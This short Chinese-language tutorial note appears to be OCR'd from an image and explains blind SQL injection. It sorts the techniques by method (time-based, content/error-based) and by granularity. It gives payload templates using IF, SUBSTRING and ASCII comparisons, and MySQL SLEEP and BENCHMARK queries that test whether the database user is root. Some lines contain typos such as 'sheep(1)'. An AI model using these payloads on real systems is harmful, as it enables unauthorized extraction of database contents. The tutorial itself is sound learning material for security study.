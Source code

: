 >盲注，按照盲注的方法有三种盲注方式
1. 基于时间的盲注；
2. 基于内容/错误的盲注；
按照盲注的条件，即又可以分为：
1. 以单词为条件；
2. 以字节为单位；
3. 以bit为单位的并发；


## 字符串盲注语句
1. 以单词为条件；

```sql
union select if(system_user='sa' ,sheep(1),1)
```


这个就是以system_user整个为单位，判断是否符合要求
2. 以字节为单位
使用substring函数提取字符串中的一位

```sql
union select if(ascii(substring((...),i,1)) >k ,sheep(1),1)
```


3. 使用bit为单位
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/96yh7wi75wi.png" width="400px" />
$$使用bit为单位$$

## 数字盲注语句

## 基于时间的盲注

### MySQL
1. 使用sleep函数
2. 使用BENCHMARK函数

#### 按照单词进行盲注
可进行的最简单的推断是我们是否在作为超级用户运行查询:
1. 使用sleep函数

```sql
SELECT count(*) FROM reviews WHERE review_auther='MadBob' UNION
SELECT IF(SUBSTRING(USER(),1,4)='root',SLEEP(5),1)；
```


2.使用BENCHMARK函数

```sql
SELECT count(*) FROM reviews WHERE review_auther='MadBob' UNION
SELECT IF(SUBSTRING(USER(),1,4)='root',BENCHMARK(100000,RAND()),1);
```
